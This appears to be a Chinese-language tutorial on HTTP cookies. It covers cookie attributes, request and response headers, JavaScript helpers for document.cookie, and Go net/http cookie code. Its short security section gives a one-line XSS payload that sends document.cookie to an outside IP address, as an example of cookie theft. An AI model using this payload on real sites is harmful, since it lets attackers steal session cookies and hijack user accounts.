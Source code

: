 # Cookie

HTTP Cookie（也叫Web Cookie或浏览器Cookie）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于无状态的HTTP协议记录稳定的状态信息成为了可能。

## cookie属性

|  名称 |  键名 | 作用  |
| ------------ | ------------ | ------------ |
|  名称 |  Name |  cookie的名称 |
|  内容 |  Value |  cookie的值 |
|  域名 |  Domain |  cookie存在的域名 |
|  路径 |  Path |  指定uri路径之下生效 |
|  过期时间 |  Expire |  失效时间 |
|  是否安全 |  Secure |  是否只能用于https |
|  是否仅用于http |  HttpOnly |  是否仅用于http传输 true时阅览器document无法读取 |

## http

在http协议中，agent请求时候一般会自动添加[Cookie][2] Header，值就是cookie键值对。

如果服务端修改cookie，在Response Header里面会有[Set-Cookie][3] Header，agent会根据值来修改自身cookie。

通过查看http请求和响应或者抓包可以发现，请求cookie header就是服务端收到的cookie数据，而服务端设置cookie后，响应里面就有set-cookie header，值就是服务端设置的属性。

详细情况请看[rfc][1]。


### 客户端js操作cookie

简单来说cookies就是阅览器里面一个叫做document.cookie的全局字符串对象

进入阅览器控制台输入`console.log(document.cookie)`,回车执行就可以看见当前站点的cookies。

发现cookies就是一段序列化的键值字符串,如果需要操作cookie，则是通过操作document.cookie字符串来达到效果。

阅览器中cookies会随http请求自动发送,在request中会有cookie和Set-Cookie这两个header,里面就是cookie,h5的fetch需要指定是否发送cookies,默认不发送cookies

js操作cookie数据，直接读写document.cookie对象，封装函数如下：

```js
"use strict";
function getCookie(name){
	var arr, reg = new RegExp("(^| )" + name + "=([^;]*)(;|$)");
	if(arr = document.cookie.match(reg))
		return unescape(arr[2]);
	else
		return null;
}

function setCookie(name, value, expiredays){
	var exp = new Date();
	exp.setDate(exp.getDate() + expiredays)
	document.cookie = name + "=" + escape(value) + ((expiredays==null) ? "" : ";expires=" + exp.toGMTString())
}

function delCookie(name){
	var exp = new Date();
	exp.setTime(exp.getTime() - 1);
	document.cookie = name + "=;expires=" + exp.toGMTString();
}
```


## 服务端go操作cookie

[net/http.Cookie][2]定义：

```golang
type Cookie struct {
        Name  string
        Value string

        Path       string    // optional
        Domain     string    // optional
        Expires    time.Time // optional
        RawExpires string    // for reading cookies only

        // MaxAge=0 means no 'Max-Age' attribute specified.
        // MaxAge<0 means delete cookie now, equivalently 'Max-Age: 0'
        // MaxAge>0 means Max-Age attribute present and given in seconds
        MaxAge   int
        Secure   bool
        HttpOnly bool
        SameSite SameSite // Go 1.11
        Raw      string
        Unparsed []string // Raw text of unparsed attribute-value pairs
}
```

查看net/http定义的函数，可以发现读Cookie实现是读取Request.Header里面的Cookie header；而修改Cookie就设置ResponseWriter.Header()里面的Set-Cookie header，例如setcookie。

### Example

操作cookie

```go
// 设置Cookie
cookie := http.Cookie{Name: "testcookiename", Value: "testcookievalue", Path: "/", MaxAge: 86400}
http.SetCookie(w, &cookie)
 
// 读取Cookie
cookie, err := req.Cookie("testcookiename")

// 删除Cookie
cookie := http.Cookie{Name: "testcookiename", Path: "/", MaxAge: -1}
http.SetCookie(w, &cookie)
```


### Get

`net/http.Request.Cookies() []*Cookie`方法就是通过读取`net/http.Request.Header["cookie"]`的值，分析出cookie键值对来构造cookie，每次读取cookie都会出来一次，效率调低。

readCookies函数过长不列出。

### Set

`net/http.SetCookie(w ResponseWriter, cookie *Cookie)`方法定义，直接将要设置的cookie序列化成字符串，给response添加Set-Cookie Header，添加多个Cookie就将Set-Cookie Header添加多次。


`net/http.Cookie.Srting()`方法就是Cookie对象的序列化的方法，会将多种属性组合成字符串。

例如：路径、域名、过期时间、只读、仅https这些属性。

以下是SetCookie和修改请求Cookie的AddCookie函数实现：

```golang
// SetCookie adds a Set-Cookie header to the provided ResponseWriter's headers.
// The provided cookie must have a valid Name. Invalid cookies may be
// silently dropped.
func SetCookie(w ResponseWriter, cookie *Cookie) {
	if v := cookie.String(); v != "" {
		w.Header().Add("Set-Cookie", v)
	}
}

// AddCookie adds a cookie to the request. Per RFC 6265 section 5.4,
// AddCookie does not attach more than one Cookie header field. That
// means all cookies, if any, are written into the same line,
// separated by semicolon.
func (r *Request) AddCookie(c *Cookie) {
	s := fmt.Sprintf("%s=%s", sanitizeCookieName(c.Name), sanitizeCookieValue(c.Value))
	if c := r.Header.Get("Cookie"); c != "" {
		r.Header.Set("Cookie", c+"; "+s)
	} else {
		r.Header.Set("Cookie", s)
	}
}
```



## 安全

### XSS

XSS触发后盗取cookie信息，然后使用Cookie信息操作。

`<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script>`

### CSRF

cookie是CSRF基本触发条件之一。

[1]: https://tools.ietf.org/html/rfc6265
[2]: https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Cookie
[3]: https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie
